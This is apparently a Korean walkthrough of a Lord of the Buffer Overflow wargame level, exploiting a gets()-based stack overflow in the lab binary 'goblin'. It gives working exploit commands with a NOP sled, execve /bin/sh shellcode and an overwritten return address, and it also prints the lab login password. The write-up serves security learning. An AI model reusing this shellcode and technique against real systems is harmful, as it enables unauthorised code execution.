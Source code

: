 # LOB - cobolt

이전 문제인 gremlin에서 구한 cobolt와 PW인 hacking exposed를 이용해 로그인한다.



ID : cobolt

PW : hacking exposed



![1567948321473](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567948321473.png)



파일 목록을 보면

![1567948350031](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567948350031.png)

다음과 같이 있다.



```c
vi goblin.c 	명령어를 통해 코드를 확인해본다.
```

![1567948638015](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567948638015.png)



버퍼가 16바이트이고 이번엔 strcpy가 아니라 gets로 buffer에 입력 받아서 출력한다.

![1567948814259](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567948814259.png)



여기서도 buffer 크기 + SFP 크기인 20글자를 입력하면 segmentation fault 가 뜬다.

![1567948975295](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567948975295.png)



파이썬은 이렇게 쓸 수 있다.

```c
python -c 'print "a"*100' | ./goblin
```

![1567949406268](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567949406268.png)



a가 100개가 들어가도 segmentation fault가 뜨진 않지만 실제로는 fault가 났다.

![1567950186314](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567950186314.png)

core 파일이 생겼다.



다음 명령어로 gets에 인자를 주고 argv 에 쉘코드를 넣는다.

```c
python -c 'print "b"*20+"\x61\x61\x61\x61"' | ./goblin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```



```c
gdb -c core		명령어를 실행한다.
```

![1567951343506](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567951343506.png)

앞부분에 python -c 'print "b"*20+"\x61\x61\x61\x61"' 로 준게 잘 들어가서 eip가 

0x61616161 이 된 것을 볼 수 있다.



```c
x/100wx $esp+300	명령어를 통해 메모리를 본다.
```

![1567951450569](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567951450569.png)

쉘코드의 위치를 볼 수 있다. 

쉘코드 위의 Nop 영역 중 하나를 고른다.

bffffbfc 를 골랐다.



이제 bffffbfc를 61616161 자리에 넣는다.

하지만 지금은 gremlin과 달리 strcpy가 아니라 gets로 하므로, 

(python -c 'print "b"*20+"\xfc\xfb\xff\xbf"';cat) 를 통해 줘야한다.

goblin의 argv에는 쉘코드를 준다.

```c
(python -c 'print "b"*20+"\xfc\xfb\xff\xbf"';cat) | ./goblin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

![1567951716240](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567951716240.png)

쉘이 떴다.



이제 main 디렉터리로 와서 POC를 실행한다.

![1567951789993](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567951789993.png)

암호가 떴다.